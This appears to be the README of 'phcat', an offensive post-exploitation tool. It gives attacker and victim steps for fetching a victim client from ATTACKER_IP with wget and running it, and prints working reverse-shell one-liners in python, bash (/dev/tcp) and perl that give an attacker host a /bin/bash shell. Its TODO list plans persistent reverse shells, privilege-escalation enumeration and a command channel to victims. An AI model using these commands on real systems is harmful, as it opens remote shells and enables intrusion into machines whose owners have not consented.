 # Screenshots
![phcat screenshot 1](/screenshots/screenshot1.png)
![phcat screenshot 2](/screenshots/screenshot2.png)
![phcat screenshot 3](/screenshots/screenshot3.png)

# Assumptions
- python3 exists on the server

# Steps using HTTP web server
1. (on attacker): python3 http_server.py
2. (on victim): wget <ATTACKER_IP>:8000/victim_client_<ATTACKER_IP>.py
3. (on attacker): python3 listener.py -v <VICTIM_IP>
4. (on victim): python3 victim_client_<ATTACKER_IP>.py

# Steps using reverse shell one-liner
1. (on attacker): python3 listener.py -v <VICTIM_IP>
2. Reverse shell one-liners (on victim)
    - [python2]: python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    - [bash]: bash -i >& /dev/tcp/<ATTACKER_IP>/9001 0>&1
    - [perl]: perl -e 'use Socket;$i="<ATTACKER_IP>";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# TODO
- (Low) Create several implementations for looping reverse shells in case python isn't available  
  - (Low) Implement "persisting" looping reverse shell install  
- (Low) Implement menu with list of playbooks that can be run for enumeration, privesc, etc  
    - (Low) Have menu items show if an error occured of if the playbook results are already available  
    - (Low) Show details about found results and what steps to take next  
    - menu['show']['network']['all'] = function  
    - show enumerate  
      [ ] 1. Check SUID binaries  
    - use enumerate 1  
    - show network  
      [ ] 1. Local IPv4s  
      [X] 2. Connected subnets  
      [ ] 3. Reachable online hosts  
    - show network 2  
- (Low) Upload and run linpeas.sh, save locally. Make it as part of the menu of things to run.  
- (Low) Some kind of client/server written on python which allows me to send commands to the victim via an encrypted channel and he just run code locally. Implement with as little dependencies as possible (will require at least python3). Since python3 is required, maybe this isn't a great idea. Might as well just send commands to the victim directly via pwntools.  
- (Low) If long running commands aren't working, echo a magic string and run recvuntil that magic string is encountered  
- (Low) Better logging with colors and stuff!  
- (Low) When checking SUID files, compare against pre-built list of 'known' default install binaries. Also check creation dates for clues.
